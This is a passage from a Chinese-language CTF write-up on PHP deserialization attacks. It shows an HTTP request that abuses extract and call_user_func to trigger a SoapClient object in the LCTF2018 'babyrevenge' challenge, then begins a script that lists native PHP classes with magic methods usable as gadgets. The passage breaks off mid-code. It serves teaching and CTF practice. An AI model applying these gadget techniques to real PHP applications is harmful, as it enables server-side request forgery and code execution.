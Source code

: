 

直接访问

![image-20200828153146285](assets/image-20200828153146285.png)

已经反序列化成了soap对象



```http
POST /web/LCTF2018/babyrevenge/?f=extract&name=SoapClient HTTP/1.1
Host: 192.168.1.22
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=rbtgu59dmpicqgk0ffkunogg1l; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

b=call_user_func
```



再次访问可以触发soap，但是我本地环境一直不成功。







## 0x06 php反序列化扩展原生类利用



**查看php原生内置类的魔术方法。**此脚本稍作修改既可用于查找原生类中的同名函数。

```php
 <?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
```